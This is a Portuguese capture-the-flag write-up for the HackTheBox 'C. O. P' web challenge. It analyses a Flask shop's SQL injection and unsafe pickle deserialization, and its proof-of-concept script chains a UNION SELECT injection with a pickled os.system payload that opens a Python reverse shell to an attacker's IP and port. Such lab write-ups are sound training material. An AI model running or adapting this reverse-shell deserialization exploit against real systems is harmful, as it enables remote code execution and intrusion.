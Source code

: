 # C. O. P

> O C.O.P (Culto dos Pickles) começou uma loja web para vender sua mercadoria. Acreditamos que os fundos estejam sendo usados para operações ilícitas de propaganda baseadas em pickles! Investigue o site e tente encontrar uma forma de interceptar a operação deles!

A descrição por si só dá uma dica muito importante para a resolução desse desafio.&#x20;

## Reconhecimento

Podemos baixar o código-fonte da aplicação e ver que se trata de uma aplicação web em Python utilizando Flask. Temos apenas dois endpoints, sendo que um trás a listagem dos produtos cadastrados:

<figure><img src="../../../.gitbook/assets/ctfhtbchallengescopindex.png" alt=""><figcaption><p>C. O. P - Página inicial da aplicação</p></figcaption></figure>

E o outro, `/view/:id` trás informações sobre um produto com base no id informado.

<figure><img src="../../../.gitbook/assets/ctfhtbchallengescopview.png" alt=""><figcaption><p>C. O. P - Detalhes do produto</p></figcaption></figure>

Podemos começar analisando o código-fonte do último endpoint, visto que ele permite a entrada de dados.

{% code title="application/blueprints/routes.py" overflow="wrap" lineNumbers="true" %}
```python
from flask import Blueprint, render_template
from application.models import shop

web = Blueprint('web', __name__)

...SNIP

@web.route('/view/<product_id>')
def product_details(product_id):
    return render_template('item.html', product=shop.select_by_id(product_id))
```
{% endcode %}

Acima está o arquivo que define as rotas da aplicação. Observe que ao acessar a rota `/view`, a aplicação chama uma função `shop.select_by_id`, definida  no arquivo `models`:

{% code title="application/models.py" lineNumbers="true" %}
```python
from application.database import query_db

class shop(object):

    @staticmethod
    def select_by_id(product_id):
        return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)
```
{% endcode %}

Perceba que a aplicação está inserindo a entrada do usuário diretamente na query SQL, ou seja, podemos tentar injetar SQL. Ao enviar uma requisição ao endpoint `/view/1'`, a aplicação retorna um erro 500, o que possivelmente indica que a entrada foi injetada na query provocando um erro. Ao consultar `/view/1'--`, a aplicação não retorna erro algum, visto que a consulta foi processada da seguinte forma:

```sql
SELECT data FROM products WHERE id='1'--'
```

Isto é, fazendo uma consulta em produtos a qual o id do produto seja 1 e comentando o restante da query que é inserido pelo back-end. Porém, apenas com esse SQL injection não somos capazes de fazer nada. Vejamos como essa rota é renderizada no template:

<pre class="language-html" data-title="application/templates/item.html" data-overflow="wrap" data-line-numbers><code class="lang-html"><strong>...SNIP
</strong><strong>&#x3C;!-- Product section-->
</strong>&#x3C;section class="py-5">
    &#x3C;div class="container px-4 px-lg-5 my-5">
        &#x3C;div class="row gx-4 gx-lg-5 align-items-center">
            {% set item = product | pickle %} &#x3C;!-- repare nessa linha -->
            &#x3C;div class="col-md-6">&#x3C;img class="card-img-top mb-5 mb-md-0" src="{{ item.image }}" alt="..." />&#x3C;/div>
            &#x3C;div class="col-md-6">
                &#x3C;h1 class="display-5 fw-bolder">{{ item.name }}&#x3C;/h1>
                &#x3C;div class="fs-5 mb-5">
                    &#x3C;span>£{{ item.price }}&#x3C;/span>
                &#x3C;/div>
                &#x3C;p class="lead">{{ item.description }}&#x3C;/p>
            &#x3C;/div>
        &#x3C;/div>
    &#x3C;/div>
&#x3C;/section>
SNIP...
</code></pre>

A instrução na linha destacada está utilizando uma funcionalidade de [filtro do Flask](https://flask.palletsprojects.com/en/2.3.x/templating/#registering-filters) que deve ser definida pela aplicação. A definição desse filtro pode ser encontrada no arquivo `app.py`:

{% code title="app.py" %}
```python
...SNIP
@app.template_filter('pickle')
def pickle_loads(s):
    return pickle.loads(base64.b64decode(s))
SNIP...
```
{% endcode %}

## Exploração

Perceba que o filtro definido é processado por uma função do [pickle](https://docs.python.org/pt-br/3/library/pickle.html), uma biblioteca de serialização do Python. A função é responsável por decodificar a entrada em base64 e então serializar ela através do pickle. Entretanto, buscando sobre essa biblioteca, foi possível [encontrar uma vulnerabilidade](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) nela que permite execução de código remotamente. Para isso, precisamos criar uma classe com o payload da RCE, usar a função `dumps` da biblioteca pickle para desserializar um objeto dessa classe e então passar esse objeto desserializado codificado em base64 para a aplicação.  A partir disso, podemos aproveitar vulnerabilidade de SQL injection para injetar o payload na requisição.

## Prova de Conceito

{% code title="poc.py" lineNumbers="true" %}
```python
import pickle
import requests
from base64 import b64encode, urlsafe_b64encode
import os

host = "http://cop.htb:1337" # troque pelo endereço do host vulnerável

class RCE:
    def __reduce__(self):
        ip = "127.0.0.1" # troque pelo seu endereço
        port = 1337 # troque por uma porta escutando em sua máquina
        reverse_shell = f"python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"{ip}\",{port}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"sh\")'"
        cmd = (f'echo "{b64encode(reverse_shell.encode()).decode()}" | base64 -d | sh')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE()) # serializando o objeto RCE com o pickle
    response = requests.get(url=f"{host}/view/' UNION SELECT \"{urlsafe_b64encode(pickled).decode()}\"--")
    print(response.text)
```
{% endcode %}

O script acima define uma classe RCE que, quando desserializada pelo pickle na aplicação vulnerável, realiza uma conexão de shell reversa. Dessa forma, podemos serializar um objeto dessa classe e tentar enviar ao endpoint vulnerável da aplicação. Abusando da falha de SQL injection, podemos criar um UNION SELECT com o payload, e ele será desserializado pela aplicação, resultando na conexão reversa à nossa máquina. Agora, com o shell, basta lermos o conteúdo do arquivo `flag.txt` para obter a flag.
